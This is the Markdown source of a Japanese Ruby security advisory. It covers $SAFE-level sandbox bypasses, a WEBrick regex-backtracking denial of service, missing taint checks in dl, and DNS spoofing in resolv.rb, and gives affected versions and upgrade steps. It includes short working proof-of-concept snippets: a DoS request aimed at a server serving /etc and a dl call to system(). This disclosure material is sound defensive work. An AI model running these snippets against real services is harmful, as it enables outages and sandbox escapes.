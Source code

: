 ```yaml
---
layout: news_post
title: "Rubyに複数の脆弱性"
author: "Shugo Maeda"
lang: ja
---
```


Rubyに複数の脆弱性が発見されました。最新バージョンへのアップグレードを推奨します。

## 詳細

以下のような脆弱性が発見されました。

### セーフレベルの脆弱性

セーフレベルにいくつかの脆弱性が発見されました。

* untrace\_varがセーフレベル4で実行可能です。

      trace_var(:$VAR) {|val| puts "$VAR = #{val}" }

      Thread.new do
       $SAFE = 4
       eval %q{
         proc = untrace_var :$VAR
         proc.first.call("aaa")
       }
      end.join

* $PROGRAM\_NAMEがセーフレベル4で変更可能です。

      Thread.new do
       $SAFE = 4
       eval %q{$PROGRAM_NAME.replace "Hello, World!"}
      end.join

      $PROGRAM_NAME #=> "Hello, World!"

* 安全でないメソッドがセーフレベル1〜3で呼び出される可能性があります。

      class Hello
       def world
         Thread.new do
           $SAFE = 4
           msg = "Hello, World!"
           def msg.size
             self.replace self*10 # replace string
             1 # return wrong size
           end
           msg
         end.value
       end
      end

      $SAFE = 1 # or 2, or 3
      s = Hello.new.world
      if s.kind_of?(String)
       puts s if s.size < 20 # print string which size is less than 20
      end

* Syslogの操作がセーフレベル4で実行可能です。

      require "syslog"

      Syslog.open

      Thread.new do
       $SAFE = 4
       eval %q{
         Syslog.log(Syslog::LOG_WARNING, "Hello, World!")
         Syslog.mask = Syslog::LOG_UPTO(Syslog::LOG_EMERG)
         Syslog.info("masked")
         Syslog.close
       }
      end.join

これらの脆弱性は山口慶太さんによって報告されました。

### WEBrickのDoS脆弱性

WEBrick::HTTP::DefaultFileHandlerには、
WEBrick::HTTPUtils.split\_header\_valueの正規表現のバックトラックのため、
リクエストの処理に指数関数的時間を要する欠陥があります。

攻撃可能なサーバの例:

    require 'webrick'
    WEBrick::HTTPServer.new(:Port => 2000, :DocumentRoot => "/etc").start

攻撃の例:

    require 'net/http'
    res = Net::HTTP.start("localhost", 2000) { |http|
      req = Net::HTTP::Get.new("/passwd")
      req['If-None-Match'] = %q{meh=""} + %q{foo="bar" } * 100
      http.request(req)
    }
    p res

このリクエストの処理は実質的には終了しません。

この脆弱性はChristian Neukirchenさんによって報告されました。

### dlの汚染チェックの欠如
{: #label-3}

dlはオブジェクトの汚染フラグをチェックしないため、攻撃者に危険な関数の実行を許してしまう可能性があります。

    require 'dl'
    $SAFE = 1
    h = DL.dlopen(nil)
    sys = h.sym('system', 'IP')
    uname = 'uname -rs'.taint
    sys[uname]

この脆弱性はsheepmanさんによって報告されました。

### resolv.rbのDNSスプーフィング脆弱性

resolv.rbには、リモートの攻撃者が偽造したDNS問い合わせの返答の受け入れを許す脆弱性があります。
この危険性は問い合わせのトランザクションID とソースポートのランダム化により低減できますが、resolv.rb ではどちらも行っていません。
修正により、それらのランダム化を行うようになります。

* 参考: [CVE-2008-1447][1]

この脆弱性は田中哲さんによって報告されました。

## 脆弱性の存在するバージョン

1.8系
: * 1\.8.5以前の全てのバージョン
  * 1\.8.6-p286以前の全てのバージョン
  * 1\.8.7-p71以前の全てのバージョン

1.9系
: * r18423以前の全てのリビジョン

## 各バージョンでの対応方法

各バージョンでの対応方法を以下に記載します。

1.8系
: 1\.8.6-p287または1.8.7-p72に更新してください。
  * [&lt;URL:ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p287.tar.gz&gt;][2]
  * [&lt;URL:ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p72.tar.gz&gt;][3]

1.9 series

: Subversionで最新版をチェックアウトしてください。

      $ svn co http://svn.ruby-lang.org/repos/ruby/trunk ruby

Rubyのパッケージを配布している各ベンダから、この脆弱性を修正した版のパッケージが提供されている場合もあります。詳細については各ベンダにお問い合わせください。

## クレジット

これらの脆弱性は山口慶太さん・Christian Neukirchenさん・sheepmanさん・田中哲さんにより Ruby Security
Teamに報告されました。

## 変更履歴

* 2007-08-08 12:24 +09:00 ruby 1.9のリビジョン番号を修正しました。
* 2007-08-11 11:31 +09:00 ruby 1.8のパッチレベルを修正しました。[Ruby 1.8.7-p72 /
  1.8.6-p287 のリリースアナウンス][4]を参照ください。



[1]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-1447
[2]: ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p287.tar.gz
[3]: ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p72.tar.gz
[4]: {{ site.url }}/ja/news/2008/08/11/ruby-1-8-7-p72-and-1-8-6-p287-released/
